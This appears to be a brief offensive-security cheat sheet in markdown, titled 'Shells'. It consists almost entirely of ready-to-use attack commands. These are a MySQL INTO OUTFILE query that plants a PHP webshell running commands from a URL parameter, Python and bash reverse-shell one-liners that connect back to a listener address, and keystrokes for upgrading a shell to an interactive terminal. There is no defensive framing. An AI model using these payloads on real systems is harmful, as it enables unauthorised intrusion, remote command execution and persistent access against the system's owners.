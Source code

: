 # Shells

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

---

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

---

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !